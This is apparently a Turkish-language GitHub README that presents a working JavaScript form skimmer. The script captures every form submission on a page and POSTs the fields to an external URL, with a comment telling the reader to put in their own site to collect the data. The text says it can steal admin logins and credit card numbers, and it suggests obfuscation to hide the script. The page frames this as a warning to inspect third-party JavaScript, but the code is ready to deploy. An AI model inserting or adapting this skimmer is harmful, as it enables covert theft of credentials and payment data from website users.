 # Adding_Open_to_Script_Front_End

## TAMAMEN BİLGİLENDİRME AMAÇLIDIR BASİT BİR JAVASCRİPT KODUNUN BAŞINIZA AÇABİLECEĞİ SORUNLARI GÖRMENİZ İÇİN

## Kod

```js

document.addEventListener('DOMContentLoaded', function() {
  var forms = document.querySelectorAll('form'); 
  forms.forEach(function(form) {
    form.addEventListener('submit', function(event) {

      var formData = new FormData(form);

      fetch('https://mysite.com/target', { // Kendi sitenizin linkini girin dataları oradan alacaksınız
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: new URLSearchParams(formData)
      })
      .then(function(response) {
        if (response.ok) {
          console.log('Form bilgileri başarıyla gönderildi.');
        } else {
          console.log('Bir hata oluştu. İstek durumu:', response.status);
        }
      })
      .catch(function(error) {
        console.log('Bir hata oluştu:', error);
      });

      form.reset();
    });
  });
});

```

## Ne işe yarıyor?

Yukarıdaki Kod Sayesinde Yaptığınız Front End'e Bir Açık Ekleyebilirsiniz (Tam Olarak Açık Sayılmaz. Sadece Form'a Girilen Bilgileri Kendi Sitenize Post Ediyorsunuz). Bu sayede admin paneli giriş bilgilerinizi veya kredi kartı bilgilerinizi çaldırabilirsiniz. Bu Sebepten dolayı javascript kodlarını inceleyin her bulduğunuz şeyi sitenize direkt olarak eklemeyin.

- Ek olarak

https://obfuscator.io/ üzerinden şifrelenmiş ise kod anlamanız imkansız olur. Sadece geliştirici sekmesindeki ağ kısmından fark edebilirsiniz.

---
- ✨ [Destek İçin](https://fastuptime.com) <br>
- 💕 [Discord](https://fastuptime.com/discord)<br>
- 🎖️ [FasterHost Technology](https://fasterhost.tech/)<br>
- ✨ İletişim için [Tıkla!](mailto:fastuptime@gmail.com)<br>

# License
- Its protected by Creative Commons ([CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/))

<a href="https://creativecommons.org/licenses/by-nc-sa/4.0/" title="BYNCSA40"><img src="https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png"></a>
